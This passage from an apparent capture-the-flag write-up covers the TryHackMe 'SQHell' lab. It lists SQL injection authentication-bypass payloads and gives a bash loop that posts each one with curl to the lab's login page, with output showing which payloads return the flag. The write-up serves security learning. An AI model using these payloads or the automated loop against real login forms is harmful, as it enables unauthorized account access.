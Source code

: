 ### Flag 1 - In-Band/Error Based - Curl Method[Permalink](https://pencer.io/ctf/ctf-thm-sqhell/#flag-1---in-banderror-based---curl-method) <a href="#flag-1---in-banderror-based---curl-method" id="flag-1---in-banderror-based---curl-method"></a>

We can also do this using curl, with the same authentication bypass technique. To automate the process of finding which one works I copied the examples from the cheatsheet [here](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet) to a file:

```
┌──(root💀kali)-[~/thm/diffctf]
└─# cat bypass.txt
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
<SNIP>
```

Then used a simple loop in BASH to read each line and try it against the website:

```
┌──(root💀kali)-[~/thm/diffctf]
└─# while IFS="" read -r p || [ -n "$p" ]
do
  printf '%s' "$p"; curl -s -d "username=$p" -d "password=" http://sqhell.thm/login | grep THM; printf "\n"
done < bypass.txt

or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' #                            <p>THM{FLAG1:<HIDDEN>}</p>
admin'/*
admin' or '1'='1                    <p>THM{FLAG1:<HIDDEN>}</p>
admin' or '1'='1'--
admin' or '1'='1'#                  <p>THM{FLAG1:<HIDDEN>}</p>
admin' or '1'='1'/*
admin'or 1=1 or ''='                <p>THM{FLAG1:<HIDDEN>}</p>
admin' or 1=1
admin' or 1=1--
admin' or 1=1#                      <p>THM{FLAG1:<HIDDEN>}</p>
<SNIP>
```
